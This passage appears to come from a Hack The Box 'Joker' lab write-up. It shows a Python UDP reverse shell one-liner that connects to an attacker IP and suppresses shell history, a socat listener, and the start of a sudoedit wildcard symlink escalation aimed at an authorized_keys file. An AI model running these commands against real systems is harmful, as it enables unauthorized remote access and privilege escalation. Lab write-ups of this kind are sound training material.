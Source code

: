 ```
>>> import subprocess
>>> subprocess.Popen(["python", "-c", 'import os; import pty; import socket; s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM); s.connect(("10.10.14.10", 100)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); os.putenv("HISTFILE","/dev/null"); pty.spawn("/bin/bash"); s.close();'])
<subprocess.Popen object at 0x7fbf709745d0>
```

```
kali:~/htb/joker# socat file:`tty`,echo=0,raw  udp-listen:100
werkzeug@joker:~$ id
uid=1000(werkzeug) gid=1000(werkzeug) groups=1000(werkzeug)
```

A good thing to get in the habit of is going ahead and spawning a tty after getting a shell. Let's do that here with python.

```
werkzeug@joker:~$ python -c 'import pty; pty.spawn("/bin/bash")'

```

### Privilege Escalation

Unfortunately we aren't able to grab the user.txt flag in alekos' home directory so we will need to escalate first. Let's see if our current user has any sudo permissions.

```
werkzeug@joker:/home/alekos$ sudo -l
Matching Defaults entries for werkzeug on joker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    sudoedit_follow, !sudoedit_checkdir

User werkzeug may run the following commands on joker:
    (alekos) NOPASSWD: sudoedit /var/www/*/*/layout.html
```

Editing a layout.html file doesn't help us much, but the asterisks look interesting and there's probably a way to exploit those wildcards. It just so happens that's exactly what we can do.

<https://www.exploit-db.com/exploits/37710/>

In the exploit linked, they explain that sudoedit does not check the full path if a wildcard is used twice. So to exploit that, they create a symbolic link which points to `/etc/shadow`. Doing this for us won't really work for us since we only have sudoedit permissions as alekos and not root. So instead what we can do is create a symbolic link to alekos ssh authorized keys file and edit the file to add in our public ssh key. 

First we need to create a directory under `/var/www/`, let's check the permissions.

```
werkzeug@joker:/home/alekos$ cd /var/www
werkzeug@joker:~$ ls -al
total 20
drwxr-xr-x  4 root     root     4096 May 18  2017 .
drwxr-xr-x 14 root     root     4096 Oct 23  2016 ..
-rwxr-x---  1 root     werkzeug  581 May 18  2017 manage-shorty.py
drwxr-x---  5 root     werkzeug 4096 May 18  2017 shorty
drwxr-xr-x  2 werkzeug werkzeug 4096 May 18  2017 testing
```
